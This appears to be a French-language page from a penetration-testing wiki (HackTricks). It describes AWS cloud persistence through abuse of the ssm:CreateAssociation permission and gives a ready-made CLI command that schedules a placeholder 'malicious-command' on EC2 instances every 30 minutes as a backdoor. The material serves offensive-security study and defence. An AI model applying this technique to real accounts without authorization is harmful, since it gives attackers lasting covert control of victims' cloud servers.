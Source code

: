 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Pour plus d'informations, consultez :

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Utilisation de ssm:CreateAssociation pour la persistance

Un attaquant ayant la permission **`ssm:CreateAssociation`** peut créer une association de gestion d'état pour exécuter automatiquement des commandes sur des instances EC2 gérées par SSM. Ces associations peuvent être configurées pour s'exécuter à intervalles réguliers, les rendant adaptées à une persistance de type backdoor sans sessions interactives.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Cette méthode de persistance fonctionne tant que l'instance EC2 est gérée par Systems Manager, que l'agent SSM est en cours d'exécution et que l'attaquant a la permission de créer des associations. Elle ne nécessite pas de sessions interactives ni de permissions explicites ssm:SendCommand. **Important :** Le paramètre `--schedule-expression` (par exemple, `rate(30 minutes)`) doit respecter l'intervalle minimum de 30 minutes d'AWS. Pour une exécution immédiate ou unique, omettez complètement `--schedule-expression` — l'association s'exécutera une fois après sa création.

{{#include ../../../banners/hacktricks-training.md}}
